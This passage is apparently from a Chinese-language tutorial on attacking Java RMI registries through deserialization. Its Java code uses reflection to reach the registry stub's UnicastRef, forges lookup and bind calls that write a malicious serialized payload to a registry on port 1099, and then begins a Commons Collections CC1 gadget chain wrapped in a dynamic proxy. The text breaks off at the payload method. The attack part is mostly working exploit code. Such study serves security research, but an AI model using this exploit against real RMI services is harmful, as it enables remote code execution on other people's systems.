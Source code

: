 ```java
        Field field = clazz.getDeclaredField("ref");
        field.setAccessible(true);
        UnicastRef ref = (UnicastRef) field.get(registry);
        RemoteCall var2 = ref.newCall(registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(getPayload());
        ref.invoke(var2);
    }

    public static void main(String[] args) throws Exception {
        RegistryImpl_Stub registry = (RegistryImpl_Stub) LocateRegistry.getRegistry("192.168.xxx.xxx", 1099);
        lookup(registry);
    }
}
```

成功触发 DNS 请求，如下-->

![alt text](20.png)

当然改一下 bind 函数也是可以的，如下-->

```java
public static void bind(RegistryImpl_Stub registry) throws Exception {
    Class<?> clazz = Class.forName("java.rmi.server.RemoteObject");
    Field field = clazz.getDeclaredField("ref");
    field.setAccessible(true);
    UnicastRef ref = (UnicastRef) field.get(registry);
    RemoteCall var3 = ref.newCall(registry, operations, 0, 4905912898345647071L);
    ObjectOutput var4 = var3.getOutputStream();
    var4.writeObject(getPayload());
    ref.invoke(var3);
}
```

成功触发 DNS 请求，如下-->

![alt text](20.png)

换汤不换药了哈哈，单纯换了个函数名，有没有更优解？看一下 Stub 中 bind 方法的源码，如下-->

![alt text](3.png)

其中会将 var2 变量序列化，var2 变量的类型是 Remote 类型（一个接口类型），既然是接口，那么就可以利用动态代理！简单改一下 CC 链的收尾部分即可，这里拿 CC1（LazyMap 版本） 举例，如下-->

```java
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.LazyMap;
import org.apache.commons.collections4.Transformer;
import sun.rmi.registry.RegistryImpl_Stub;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.util.HashMap;
import java.util.Map;

public class ClientAttackRegistry {

    private static Remote getPayload() throws Exception {
```